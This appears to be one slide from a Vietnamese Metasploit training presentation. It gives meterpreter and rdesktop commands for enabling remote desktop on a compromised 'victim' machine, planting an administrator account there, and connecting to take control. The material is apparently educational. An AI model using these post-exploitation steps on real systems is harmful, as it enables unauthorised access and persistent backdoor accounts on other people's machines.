

#
III. Sử dụng Metasploit Framework
 Điều khiển màn hình máy victim từ xa:
Cách 1:
Ở dấu nhắc meterpreter, gõ lệnh run getgui -e để kích hoạt điều khiển từ xa.
Nếu thành công thì tiếp tục run getgui -u [tên] -p [mật_khẩu] để tạo một tài khoản administrator kèm mật khẩu vào máy nạn nhân.
Nếu thành công tiếp thì mở một cửa sổ terminal khác, chạy rdesktop -u [tên] -p [mật_khẩu] [ip_nạn_nhân], để kết nối tới máy nạn nhân và yêu cầu quyền điều khiển.

28